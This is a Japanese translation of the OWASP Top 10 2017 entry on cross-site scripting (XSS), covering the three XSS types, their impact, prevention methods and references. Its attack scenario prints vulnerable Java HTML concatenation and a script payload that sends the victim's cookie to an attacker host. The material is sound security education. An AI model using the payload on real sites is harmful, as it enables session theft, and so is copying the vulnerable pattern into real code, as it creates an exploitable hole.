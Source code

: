 # A7:2017 クロスサイトスクリプティング (XSS)

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点           | 影響               |
| -- | -- | -- |
| アクセスレベル : 悪用難易度 3 | 流行度 3 : 検出難易度 3 | 技術的影響度 2 : ビジネスへの影響 |
| 3種類のXSSはいずれも、自動化ツールを用いて検出および悪用することが可能です。また、誰でも入手できる、XSSを悪用するためのフレームワークも複数存在します。 | XSSは、OWASP Top 10の中では2番目に多く見られる問題であり、アプリケーション全体のおよそ三分の二で検出されます。自動化ツールで、いくつかのXSS問題を検出できます。PHP、J2EE/JSP、またはASP.NETのような成熟した技術においては、特にそれが顕著です。 | XSSの影響は、リクレクトおよびDOMベースの場合は中程度、ストアドの場合は重大となります。具体的な被害例として、被害者のブラウザ上でリモートコードが実行されることによる、認証情報やセッションの奪取、被害者へのマルウェア感染が挙げられます。 |

## 脆弱性有無の確認

XSSには3種類のタイプが存在し、大抵は被害者のブラウザがターゲットとされます。

* **リフレクトXSS**: アプリケーションまたはAPIが、ユーザ入力データを適切に検証およびエスケープせずに、HTML出力の一部としてインクルードしている場合に脆弱になります。攻撃が成功すると、攻撃者は被害者のブラウザで任意のHTMLやJavaScriptを実行できるようになります。一般的には、水飲み場サイトや広告ページなど、攻撃者の制御下にあるページに辿り着くための何らかの悪質なリンクに対して、ユーザが操作を行う必要があります。
* **ストアドXSS**: ユーザ入力データが後に別のユーザまたは管理者によって閲覧される場合において、アプリケーションまたはAPIがそのデータを無害化せずに格納していると脆弱になります。ストアドXSSは、大抵の場合、高または重大リスクと見做されています。
* **DOMベースXSS**: 攻撃者が制御可能なデータをページに動的にインクルードするJavaScriptフレームワーク、単一ページのアプリケーション、およびAPIは、DOMベースXSSに対して脆弱になります。アプリケーションは、安全でないJavaScript APIに対して、攻撃者が制御可能なデータを送信しないことが理想です。

典型的なXSS攻撃には、セッションの奪取、アカウントの乗っ取り、多要素認証(MFA)の回避、DOMノードの置換または改竄(トロイの木馬を介した偽のログイン画面挿入等)、悪質なソフトウェアのダウンロードやキーロギング等のユーザのブラウザに対する攻撃などが含まれます。

## 防止方法

XSSを防止するには、信頼出来ないデータを動的なブラウザコンテンツから区別する必要があります。具体的には以下を実施します。

* 最新のRuby on RailsやReact JSなど、XSSに悪用されうるデータを自動的にエスケープするよう設計されたフレームワークを使用する。各フレームワークにおけるXSS対策の限界を確認し、対策の範囲外となるデータ使用については、適切な処理を行う。
* ボディ、属性、JavaScript、CSSやURLなどHTML出力のコンテキストに基づいて、信頼出来ないHTTPリクエストデータをエスケープすることで、リフレクトおよびストアドXSS脆弱性を解消できる。要求されるデータの詳細なエスケープ手法は [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) を参照のこと。
* クライアント側でのブラウザドキュメント改変時に、コンテキスト依存のエンコーディングを適用することで、DOMベースXSSへの対策となる。これが行えない場合には、OWASP Cheat Sheet 'DOM based XSS Prevention'で説明されている、同様のコンテキスト依存のエスケープ手法をブラウザAPIに適用することもできる。
* XSSに対する多層防御措置の一環として [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) を有効に設定する。これは、ローカルファイルインクルードを介して悪意のあるコードを設置可能にする他の脆弱性（例：パストラバーサルを悪用したファイルの上書き、許可されたコンテンツ配信ネットワークから提供された脆弱なライブラリ等）が存在しない場合に効果的である。

## 攻撃シナリオの例

**シナリオ #1**: あるアプリケーションは、検証やエスケープをせず、信頼出来ないデータを使用して、以下のHTMLスニペットを生成しています。

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
攻撃者はブラウザでパラメータ‘CC’を以下に改変します。

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

これにより、被害者のセッションIDが攻撃者のウェブサイトに送信され、被害者のセッションが乗っ取られます。

攻撃者は、アプリケーションが使用している自動化されたCSRF対策を、XSSで破れることに注意して下さい。

## 参考資料

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### その他

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
